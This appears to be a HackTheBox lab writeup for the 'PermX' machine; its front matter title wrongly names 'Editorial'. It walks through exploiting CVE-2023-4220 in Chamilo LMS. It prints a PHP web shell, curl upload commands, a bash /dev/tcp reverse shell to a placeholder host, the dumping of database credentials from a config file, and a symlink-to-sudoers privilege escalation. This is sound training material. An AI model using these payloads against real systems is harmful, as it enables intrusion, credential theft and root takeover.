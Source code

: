 ```yaml
---

layout: post
title: "Exploiting File Upload and Privilege Escalation in Editorial"
author: "0x5t"
catalog: true
header-img: "img/post-bg-digital-native.jpg"
header-mask: 0.4
tags:

- Web Exploitation
- File Upload
- Privilege Escalation
- HackTheBox

---
```


# PermX Writeup

## Overview
**Machine Name:** PermX  
**Date:** 24th October 2024  
**Difficulty:** Easy  

## Synopsis
PermX is an Easy difficulty Linux machine featuring a learning management system vulnerable to unrestricted file uploads via **CVE-2023-4220**. This vulnerability is leveraged to gain a foothold on the machine. Enumerating the machine reveals credentials that lead to **SSH access**. A **sudo misconfiguration** is then exploited to gain a root shell.

## Skills Required
- Linux Command Line
- Web Enumeration

## Skills Learned
- Linux Enumeration
- Sudo Exploitation

---

## Enumeration
### **Nmap Scan**
Scanning the target with **Nmap** reveals two open TCP ports:
- **Port 22**: SSH (OpenSSH 8.9p1 Ubuntu)
- **Port 80**: Apache web server

```bash
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.11.23
```

Output:
```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu
80/tcp  open  http    Apache/2.4.52
```
To access the web server, add the domain to the **hosts file**:
```bash
echo "10.10.11.23  permx.htb" | sudo tee -a /etc/hosts
```

### **Subdomain Enumeration**
Using **ffuf** to enumerate subdomains:
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt \
-H "Host: FUZZ.permx.htb" -u http://permx.htb -t 200 -ic
```

Identified subdomains:
- `www.permx.htb`
- `lms.permx.htb`

Adding the LMS subdomain to `/etc/hosts`:
```bash
echo "10.10.11.23  lms.permx.htb" | sudo tee -a /etc/hosts
```

---

## Exploitation
### **CVE-2023-4220 - Unrestricted File Upload**
Chamilo LMS is vulnerable to **unauthenticated file upload**.

Creating a **PHP web shell**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
Uploading the web shell:
```bash
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
Verifying execution:
```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=id'
```
Expected output:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### **Reverse Shell**
Starting a **Netcat listener**:
```bash
nc -lnvp {{PORT}}
```
Creating and uploading a **reverse shell payload**:
```bash
echo '<?php system("bash -c \'bash -i >& /dev/tcp/{{IP}}/{{PORT}} 0>&1\'"); ?>' > rev.php
curl -F 'bigUploadFile=@rev.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
Triggering the reverse shell:
```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'
```
Successful connection on **Netcat listener**:
```
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.23] 39022
```

### **Obtaining User Credentials**
Dumping the **Chamilo configuration file**:
```bash
cat /var/www/chamilo/app/config/configuration.php
```
Extracted credentials:
```
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```
Using these credentials to SSH into the server:
```bash
ssh mtz@permx.htb
```
Obtaining the **user flag**:
```bash
cat user.txt
```

---

## Privilege Escalation
### **Sudo Misconfiguration**
Checking sudo privileges:
```bash
sudo -l
```
Output:
```
User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
Inspecting **acl.sh**:
```bash
cat /opt/acl.sh
```
The script modifies file **ACLs** in `/home/mtz/` and allows arbitrary file access.

### **Exploiting ACL Misconfiguration**
Creating a **symbolic link** to `/etc/sudoers`:
```bash
ln -s /etc/sudoers /home/mtz/root
```
Granting write permissions via `acl.sh`:
```bash
sudo /opt/acl.sh mtz rw /home/mtz/root
```
Appending a **new sudo rule** to escalate privileges:
```bash
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
```
Getting a **root shell**:
```bash
sudo bash
```
Confirming root access:
```bash
id
```
Expected output:
```
uid=0(root) gid=0(root) groups=0(root)
```
Extracting the **root flag**:
```bash
cat /root/root.txt
```

---

## Conclusion
- **Gained foothold** using CVE-2023-4220 file upload vulnerability.
- **Escalated privileges** via a misconfigured ACL script.
- **Successfully rooted** the machine and obtained all required flags.

**Key Takeaways:**
- Always sanitize file uploads to prevent **RCE vulnerabilities**.
- Ensure **sudo permissions** do not allow unrestricted execution of scripts that manipulate system files.
- Enforce **least privilege principles** to reduce risk exposure.

**End of Writeup**
